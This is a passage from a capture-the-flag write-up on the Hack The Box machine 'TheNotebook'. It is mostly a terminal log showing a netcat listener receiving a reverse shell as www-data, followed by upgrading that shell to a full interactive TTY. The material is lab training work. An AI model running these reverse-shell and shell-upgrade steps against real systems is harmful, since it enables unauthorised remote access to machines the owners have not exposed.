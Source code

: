 ![Pasted image 20210501004608.png](../../zzz_res/attachments/Pasted_image_20210501004608.png)

Finally a reverse shell was obtained clicking on the *view* button:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/TheNotebook]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.230] 43694
Linux thenotebook 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 22:52:28 up  7:50,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@thenotebook:/$ ^Z
zsh: suspended  nc -nlvp 10099

┌──(kali㉿kali)-[~/CTFs/HTB/box/TheNotebook]
└─$ stty raw -echo; fg

[1]  + continued  nc -nlvp 10099

www-data@thenotebook:/$ export TERM=xterm
www-data@thenotebook:/$ stty rows 60 columns 235
```
